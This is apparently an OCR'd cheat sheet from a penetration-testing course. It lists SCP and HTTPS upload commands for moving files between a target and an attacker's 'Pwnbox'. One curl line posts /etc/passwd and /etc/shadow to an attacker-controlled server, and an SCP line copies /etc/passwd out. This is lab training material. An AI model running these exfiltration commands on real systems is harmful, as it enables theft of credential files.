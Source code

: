 | **SSH Download / Upload**                                                                                  |                                                           |
| `scp plaintext@192.168.49.128:/root/myroot.txt .`                                                          | Linux - Downloading Files Using SCP                       |
| `scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/`                                                | File Upload using SCP                                     |
|                                                                                                            |                                                           |
| **Web Upload**                                                                                             |                                                           |
| `python3 -m pip install --user uploadserver`                                                               | Pwnbox - Start Web Server                                 |
| `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`  | Pwnbox - Create a Self-Signed Certificate                 |
| `mkdir https && cd https`                                                                                  | Pwnbox - Start Web Server                                 |
| `python3 -m uploadserver 443 --server-certificate /root/server.pem`                                        | Pwnbox - Start Web Server                                 |
| `curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`    | Linux - Upload Multiple Files                             |
|                                                                                                            |                                                           |
